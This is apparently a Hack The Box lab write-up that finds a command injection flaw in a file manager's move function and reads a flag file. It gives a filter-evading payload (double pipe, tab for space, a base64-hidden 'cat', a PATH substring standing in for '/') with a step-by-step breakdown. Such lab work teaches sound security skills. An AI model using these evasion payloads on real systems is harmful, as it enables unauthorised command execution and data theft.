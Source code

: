 ```yaml
---
sticker: emoji//1f4bb
---
```

You are contracted to perform a penetration test for a company, and through your pentest, you stumble upon an interesting file manager web application. As file managers tend to execute system commands, you are interested in testing for command injection vulnerabilities.

Use the various techniques presented in this module to detect a command injection vulnerability and then exploit it, evading any filters in place.


![](gitbook/cybersecurity/images/Pasted%252520image%25252020250205145850.png)

## Reconnaissance
---

Once we've authenticated, we can see the following:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250205145916.png)

We got a lot of functions in this page, being:

```ad-summary
1. Direct Link
2. Preview
3. Copy to
4. Download
```

After checking each of them, I found the following in the `Copy to` function:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250205150700.png)

We have a `Copy` and `Move` function in this page, they go by the following parameters:

Copy:
```
/index.php?to=&from=51459716.txt&finish=1
```

Move:

```
/index.php?to=&from=51459716.txt&finish=1&move=1 
```

In the move URL, if we modify the to value to empty, we can see the following:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250205153325.png)

Which means, it could be vulnerable to command injection, let's try sending a simple payload like:

```
/index.php?to=&from=51459716.txt;uname&finish=1&move=1
```

We will see the following:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250205153433.png)

This is indeed vulnerable to command injection, let's craft our payload to read the flag.

## Exploitation
---

Commands like `cat`, `mv` and `ls` are blocked, we need to bypass them using what we've learned in this module, let's do the following payload:

```
%7C%7Cbash<<<$(base64%09-d<<<Y2F0ICR7UEFUSDowOjF9ZmxhZy50eHQK)
```

```ad-important
#### Breakdown
---
### **1. URL Decoding First**

- `%7C%7C` → `||` (double pipe operator in Linux).
    
- `%09` → Tab character (used to replace spaces).
    

Decoded payload:


`||bash<<<$(base64 -d<<<Y2F0ICR7UEFUSDowOjF9ZmxhZy50eHQK)`


---

### **2. Command Structure**

- **`||`**: Execute the second command **regardless** of whether the first command (`mv`, in the original app) succeeds or fails.
    
- **`bash<<<`**: Pass the following string as input to `bash` for execution.
    

---

### **3. Decoding the Base64 String**

The inner command is:

`$(base64 -d<<<Y2F0ICR7UEFUSDowOjF9ZmxhZy50eHQK)`

- **`base64 -d`**: Decodes a Base64-encoded string.
    
- **`<<<Y2F0ICR7UEFUSDowOjF9ZmxhZy50eHQK`**: Passes the Base64 string to `base64 -d`.
    

**Decoding the Base64**:


`echo "Y2F0ICR7UEFUSDowOjF9ZmxhZy50eHQK" | base64 -d`

**Result**:

`cat ${PATH:0:1}flag.txt`

---

### **4. Breaking Down the Final Command**

The decoded command is:

`cat ${PATH:0:1}flag.txt`

- **`${PATH:0:1}`**: Extracts the first character of the `PATH` environment variable (which is `/`).
    
    - Example: If `PATH=/usr/local/bin:/usr/bin`, `${PATH:0:1}` → `/`.
        
- **Result**: `cat /flag.txt`.
    

---

### **5. Why Use These Techniques?**

- **`||`**: Bypasses command injection filters by executing regardless of the first command's success.
    
- **`base64`**: Obfuscates the command to bypass keyword filters (e.g., `cat`, `/`).
    
- **`${PATH:0:1}`**: Avoids using `/` directly (common blacklisted character).
    
- **`%09` (tab)**: Replaces spaces to bypass space filters.
    

---

### **Full Payload Flow**

1. The app runs `mv [file] [to]`.
    
2. The payload injects `||bash<<<$(base64 -d<<<...)`.
    
3. The Base64 string decodes to `cat /flag.txt`.
    
4. `bash` executes the decoded command, printing the flag.
```

If we needed to look around for the flag, we'd need to use more payloads, since this is not needed, we can simply use this one.

So, let's send it like this:

```
http://94.237.54.42:31196/index.php?to=%7C%7Cbash<<<$(base64%09-d<<<Y2F0ICR7UEFUSDowOjF9ZmxhZy50eHQK)&from=51459716.txt&finish=1&move=1
```

We will see the following output:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250205153914.png)

Flag is `HTB{c0mm4nd3r_1nj3c70r}`

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250205154011.png)

